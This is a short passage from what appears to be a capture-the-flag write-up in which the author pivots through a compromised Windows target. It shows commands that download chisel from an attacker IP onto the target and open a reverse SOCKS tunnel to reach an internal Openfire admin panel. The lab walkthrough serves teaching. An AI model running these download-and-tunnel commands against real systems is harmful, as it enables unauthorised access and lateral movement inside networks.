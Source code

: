 So to be able to see what is happening on this port we can upload chisel to proxy all our traffic through the target host. First we run the chisel server using the following command on our machine

```bash
./chisel server --port 5000 --reverse
```
Next I downloaded the chisel client and ran it with the following command

```
wget "http://10.10.16.61/chisel.exe" -outfile "chisel.exe"
.\chisel.exe client 10.10.16.61:5000 R:socks
```
To be able to reach webservices on throught the tunnel we need to first set our burp to use a socks proxy. We can do this in the connections tab of the proxy settings.

![Proxychains](/assets/img/Jab/Jab_12.png)

Then when browsing to **http://localhost:9090** we'd be greeted with the login panel of the openfire admin panel

